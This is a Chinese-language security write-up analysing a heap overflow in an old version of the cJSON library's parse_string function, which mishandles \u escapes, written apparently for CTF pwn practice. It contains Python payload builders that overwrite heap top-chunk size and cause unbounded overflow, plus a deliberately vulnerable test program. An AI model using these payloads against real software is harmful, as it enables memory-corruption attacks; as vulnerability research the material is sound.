




# cJSON库函数存在的堆溢出漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16436  
> **文章ID**: 16436

---

# cJSON库函数存在的堆溢出漏洞分析

附件：通过网盘分享的文件：test\_cJSON.zip  
链接: <https://pan.baidu.com/s/1bfPQFxT2x_FuLsySkfakyQ?pwd=GAME> 提取码: GAME

## 分享cJSON的起因

之前在某比赛里第一次遇到使用cJSON库函数的题目时。一直打不出来，就去看了看cve知道了存在了哪些漏洞。然后前不久强网拟态也遇到了调用cJSON的库函数的ezcode，随后就打算看看哪里存在漏洞。

## cJSON介绍

* cJSON是一个轻量级的C语言JSON解析库，它能够将JSON格式的数据解析为C语言中的对象或数组，同时也能够将C语言的数据结构转换为JSON格式的字符串。
* 它提供了一组函数和数据结构，使得在C语言中可以方便地处理JSON数据。

> 下面的函数解析均为使用cJSON\_Parse函数去解析字符串时所调用的部分函数，具体咋回事还得下载源码看看

# cJSON\_Parse

```
cJSON *cJSON_ParseWithOpts(const char *value,const char **return_parse_end,int require_null_terminated)
{
    const char *end = 0;
    cJSON *c = cJSON_New_Item();//固定malloc(sizeof(cJSON));memset(0,chunk,0x40);
    ep = 0;
    if (!c) return 0; 

    end = parse_value(c,skip(value));//去除字符串开头的小于等于\x20的数据
    if (!end)   {cJSON_Delete(c);return 0;} /* parse failure. ep is set. */

    /* if we require null-terminated JSON without appended garbage, skip and then check for a null terminator */
    if (require_null_terminated) {end=skip(end);if (*end) {cJSON_Delete(c);ep=end;return 0;}}
    if (return_parse_end) *return_parse_end=end;
    return c;
}
/* Default options for cJSON_Parse */
cJSON *cJSON_Parse(const char *value) {return cJSON_ParseWithOpts(value,0,0);}

```

如下是cJSON的结构体数据

```
//结构体数据
typedef struct cJSON {
    struct cJSON *next,*prev;   /* next/prev allow you to walk array/object chains. Alternatively, use GetArraySize/GetArrayItem/GetObjectItem */
    struct cJSON *child;        /* An array or object item will have a child pointer pointing to a chain of the items in the array/object. */

    int type;                   /* The type of the item, as above. */

    char *valuestring;          /* The item's string, if type==cJSON_String */
    int valueint;               /* The item's number, if type==cJSON_Number */
    double valuedouble;         /* The item's number, if type==cJSON_Number */

    char *string;               /* The item's name string, if this item is the child of, or is in the list of subitems of an object. */
} cJSON;

```

* 首先固定malloc一个结构体大小
* skip函数去除待解析字符串头部小于等于\x20的数据
* 进入pase\_value函数解析输入的字符串
* pase\_value出错则会free申请的所有chunk

### json数据的四种主要类型：

```
string : "aaaaaaaaa"
number : 8888
array  : [8888,"meimeng",[8888],{"name":"meimeng"}]
object : {
                    "name":"meimeng",
                    "age":18
                    }

```

## pase\_value

```
/* Parser core - when encountering text, process appropriately. */
static const char *parse_value(cJSON *item,const char *value)
{
    if (!value)                     return 0;   /* Fail on null. */
    if (!strncmp(value,"null",4))   { item->type=cJSON_NULL;  return value+4; }
    if (!strncmp(value,"false",5))  { item->type=cJSON_False; return value+5; }
    if (!strncmp(value,"true",4))   { item->type=cJSON_True; item->valueint=1;  return value+4; }
    if (*value=='\"')               { return parse_string(item,value); }
    if (*value=='-' || (*value>='0' && *value<='9'))    { return parse_number(item,value); }
    if (*value=='[')                { return parse_array(item,value); }
    if (*value=='{')                { return parse_object(item,value); }

    ep=value;return 0;  /* failure. */
}

```

* 根据带解析字符串的第一个字符解析进入对应解析函数

## 漏洞存在的地方parse\_string函数

```
static const char *parse_string(cJSON *item,const char *str)
{
    const char *ptr=str+1;
    char *ptr2;
    char *out;
    int len=0;
    unsigned uc,uc2;
    if (*str!='\"') {ep=str;return 0;}  /* not a string! */

    while (*ptr!='\"' && *ptr && ++len) //计算长度
        if (*ptr++ == '\\') 
            ptr++;  /* Skip escaped quotes. */

    out=(char*)cJSON_malloc(len+1); /* This is how long we need for the string, roughly. */
    if (!out) return 0;

    ptr=str+1;ptr2=out;
    while (*ptr!='\"' && *ptr)
    {
        if (*ptr!='\\') 
            *ptr2++=*ptr++; //字符串写入chunk
        else//解释转义字符
        {
            ptr++;
            switch (*ptr)
            {
                case 'b': *ptr2++='\b'; break;
                case 'f': *ptr2++='\f'; break;
                case 'n': *ptr2++='\n'; break;
                case 'r': *ptr2++='\r'; break;
                case 't': *ptr2++='\t'; break;
                case 'u':    /* transcode utf16 to utf8. */
                    uc = parse_hex4(ptr+1);ptr += 4;    /* get the unicode char. */

                    if ((uc>=0xDC00 && uc<=0xDFFF) || uc==0)    break;  /* check for invalid.   */
                    if (uc>=0xD800 && uc<=0xDBFF)   /* UTF16 surrogate pairs.   */
                    {
                        if (ptr[1]!='\\' || ptr[2]!='u')    break;  /* missing second-half of surrogate.    */
                        uc2=parse_hex4(ptr+3);ptr+=6;
                        if (uc2<0xDC00 || uc2>0xDFFF)       break;  /* invalid second-half of surrogate.    */
                        uc=0x10000 + (((uc&0x3FF)<<10) | (uc2&0x3FF));
                    }

                    len=4;if (uc<0x80) len=1;else if (uc<0x800) len=2;else if (uc<0x10000) len=3; ptr2+=len;
                    switch (len) {
                        case 4: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 3: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 2: *--ptr2 =((uc | 0x80) & 0xBF); uc >>= 6;
                        case 1: *--ptr2 =(uc | firstByteMark[len]);
                    }
                    ptr2+=len;
                    break;
                default:  *ptr2++=*ptr; break;
            }
            ptr++;
        }
    }
    *ptr2=0;
    if (*ptr=='\"') ptr++;
    item->valuestring=out;
    item->type=cJSON_String;
    return ptr;
}

```

parse\_string函数也就是解析字符串调用的函数存在漏洞。

* malloc的size根据(*ptr!='\"' &&* ptr)结算
* 向堆上写入数据时(*ptr!='\"' &&* ptr)停止写入
* 解析转义字符\u时存在越过\”的风险，可造成无限堆溢出

当解析转义字符的时候，case “u”会ptr+4，也就是指定字符”\u”后四个数据解析，把第二个“号写入其中，则会不断将我们传输的数据赋给堆，直到遇到数据"\x00"或者"\""

如下例子：

源码：

```
#include <stdio.h>
#include <stdlib.h>
#include "cJSON.h"
#include "cJSON.c"

int main()
{
    char buf[0x100];
    puts("Input data which type is JSON:");
    read(0,buf,0x100);
    cJSON *ptr = cJSON_Parse(buf);
    printf("Creat_object:%s\n",cJSON_Print(ptr));

    if(ptr)
    {    puts("[s]print_object:");

        cJSON *pName = cJSON_GetObjectItem(ptr, "name");
        if(pName == NULL){
            puts("[e]Don`t find \"name\",error.");
            exit(0);
        }
        printf("name [%s]\n", pName->valuestring);

        cJSON *pAge = cJSON_GetObjectItem(ptr, "age");
        if(pAge == NULL){
            puts("[e]Don`t find \"age\",error.");
            exit(0);
        }
        printf("age  [%d]\n", pAge->valueint);

        cJSON *pSex = cJSON_GetObjectItem(ptr, "sex");
        if(pSex == NULL){
            puts("[e]Don`t find \"sex\",error.");
            exit(0);
        }
        printf("sex  [%s]\n", pSex->valuestring);
    }
    else
    {
        puts("[e]cJSON_Parse,error.");
    }
}

```

修改topchunk的size，发送数据：

```
top_chunk_size = b'\xf1\x08'
fake_data_1 = b'"' + b'a'*0x16 + b"\u" + b'"' + b'-'*5
fake_data_1 += top_chunk_size + b'"'

```

結果：




无限溢出，发送数据：

```
def fake_string(chunk_size,payload,overflow_data):
    string = b'"' + payload.ljust(chunk_size-2,b'\x01') + b"\u" + b'"' + b'-'*5
    string += overflow_data + b'"'
    return string

data_overflow = b'\xff\xff\xff\xff\xff\xff\xff\xff'
data_overflow += b'This_is_fake_data_to_chunk!!!!!'

fake_data_1=fake_string(0x18,b'a',data_overflow)

```

结果：



## parse\_object

```
static const char *parse_object(cJSON *item,const char *value)
{
    cJSON *child;
    if (*value!='{')    {ep=value;return 0;}    /* not an object! */

    item->type=cJSON_Object;
    value=skip(value+1);
    if (*value=='}') return value+1;    /* empty array. */

    item->child=child=cJSON_New_Item();
    if (!item->child) return 0;
    value=skip(parse_string(child,skip(value)));
    if (!value) return 0;
    child->string=child->valuestring;
    child->valuestring=0;
    if (*value!=':') {ep=value;return 0;}   /* fail! */
    value=skip(parse_value(child,skip(value+1)));   /* skip any spacing, get the value. */
    if (!value) return 0;

    while (*value==',')
    {
        cJSON *new_item;
        if (!(new_item=cJSON_New_Item()))   return 0; /* memory fail */
        child->next=new_item;
        new_item->prev=child;
        child = new_item;
        value=skip(parse_string(child,skip(value+1)));
        if (!value) return 0;
        child->string=child->valuestring;child->valuestring=0;
        if (*value!=':') {ep=value;return 0;}   /* fail! */
        value=skip(parse_value(child,skip(value+1)));   /* skip any spacing, get the value. */
        if (!value) return 0;
    }

    if (*value=='}') 
        return value+1; /* end of array */
    ep=value;
    return 0;   /* malformed. */
}

```

如下是传入json数据后的堆块分布

```
{
    "Name" : "meimeng",
    "Age" : 18 ,
    "Sex" : "male"
}

```

上述数据在经过cJSON\_Parse后的堆块分布如下图



发送下述数据：

pwntools发送的数据：

```
def fake_string(chunk_size,payload,overflow_data):
    string = b'"' + payload.ljust(chunk_size-2,b'\x01') + b"\u" + b'"' + b'-'*5
    string += overflow_data + b'"'
    return string

fake_object = b"{"
fake_object += fake_string(0x18,b'a'*0x16,b'\xf1\x08') + b':' + b"\xff"
fake_object += b"}"

```

parse\_value会识别不了类型返回0，接着parse\_value也会返回0，返回到cJSON\_parse函数后就会去free当前结构体内申请的chunk

效果图：



总结：

1. cJSON\_Parse 函数存在堆溢出，可以通过精心构造造成任意溢出数据直到数据为0或者解析到\”
2. 解析为字符串的数据总是会以0截断导致很难通过同为库函数的cJSON\_Print泄漏地址信息
3. 在解析object或者array时，可以传入错误数据使其free掉申请的chunk
